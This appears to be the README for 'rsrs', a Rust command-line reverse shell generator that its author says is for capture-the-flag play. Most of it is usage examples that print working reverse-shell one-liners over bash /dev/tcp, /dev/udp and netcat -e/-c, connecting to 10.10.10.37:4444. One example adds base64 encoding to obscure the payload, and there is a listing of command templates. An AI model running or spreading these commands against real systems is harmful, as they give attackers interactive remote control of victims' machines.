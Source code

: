 * RuSt Reverse Shell
** What is this?
A reverse shell generator written in rust.
** Why?
I enjoy playing CTFs. There are reverse shell generators available on the web,
but i wanted a single binary program that I could throw into containers and VMs
easily, or just netcat across the wire to a target box.
* Usage
There are 3 subcommands. =Generate=, which generates a reverse shell,
=list-shells= which lists the names of the reverse shells that were compiled in,
and =list-shells-verbose= which lists shells, their components, and their
capabilities.
** Examples
Generate a TCP Bash reverse shell that connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r bash_tcp
bash -i >& /dev/tcp/10.10.10.37/4444 0>&1
#+END_SRC

Generate a netcat shell, that uses zsh, and connects to port 4444 on the IP 10.10.10.37
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r "nc -e" --shell "/bin/zsh"
nc -e /bin/zsh 10.10.10.37 4444
#+END_SRC

Generate a netcat shell, that uses zsh, connects to port 4444 on the IP address
10.10.10.37 and output the string as base64
#+BEGIN_SRC
rsrs generate -i 10.10.10.37 -p 4444 -r "nc -e" --shell "/bin/zsh" -e base64
bmMgLWUgL2Jpbi96c2ggMTAuMTAuMTAuMzcgNDQ0NA==
#+END_SRC


List all shells that run on Linux.
#+BEGIN_SRC
rsrs list-shells linux
nc -c
nc -e
bash_tcp
bash_udp
#+END_SRC

List all shells that run on linux, verbose.
#+BEGIN_SRC
rsrs list-shells-verbose linux
Name:		bash_udp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/udp/{SUBIP}/{SUBPORT} 0>&1
Name:		nc -c
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -c {SUBSHELL} {SUBIP} {SUBPORT}
Name:		nc -e
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT", "SHELL"]
Command:	nc -e {SUBSHELL} {SUBIP} {SUBPORT}
Name:		bash_tcp
OS:		["linux", "mac"]
Subcomponents:	["IP", "PORT"]
Command:	bash -i >& /dev/tcp/{SUBIP}/{SUBPORT} 0>&1
#+END_SRC
* Thanks
Thanks to [[https://www.revshells.com/][RevShells]] and [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell=][PayloadsAllTheThings]]

